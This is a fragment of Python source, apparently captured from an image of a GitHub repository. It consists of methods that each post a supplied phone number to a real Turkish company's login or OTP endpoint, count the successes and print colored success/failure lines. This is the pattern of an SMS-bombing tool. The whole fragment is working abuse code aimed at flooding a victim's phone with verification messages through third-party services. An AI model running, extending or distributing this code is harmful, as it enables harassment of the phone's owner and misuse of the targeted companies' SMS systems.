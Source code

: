     #jetle
    def jetle(self):
     try:
        url = f"http://ws.geowix.com/GeoCourier/SubmitPhoneToLogin?phonenumber={self.phone}&firmaID=1048"
        r = requests.get(url=url, timeout=5)
        if r.status_code == 200:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> jetle")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> jetle")

    #rabbit
    def rabbit(self):
     try:
        url = "https://api.rbbt.com.tr/v1/auth/authenticate"
        payload = {
            "mobile_number" : f"+90{self.phone}",
            "os_name" : "android",
            "os_version" : "7.1.2",
            "app_version" : " 1.0.2(12)",
            "push_id" : "-"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["status"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> rabbit")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> rabbit")

    #roombadi
    def roombadi(self):
     try:
        url = "https://api.roombadi.com/api/v1/auth/otp/authenticate"
        payload = {"phone": f"{self.phone}", "countryId": 2}
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> roombadi")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> roombadi")

    #hizlieczaza
    def hizliecza(self):
     try:
        url = "https://hizlieczaprodapi.hizliecza.net/mobil/account/sendOTP"
        payload = {"phonenumber": f"+90{self.phone}", "otpOperationType": 2}
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["isSuccess"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> hizliecza")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> hizliecza")
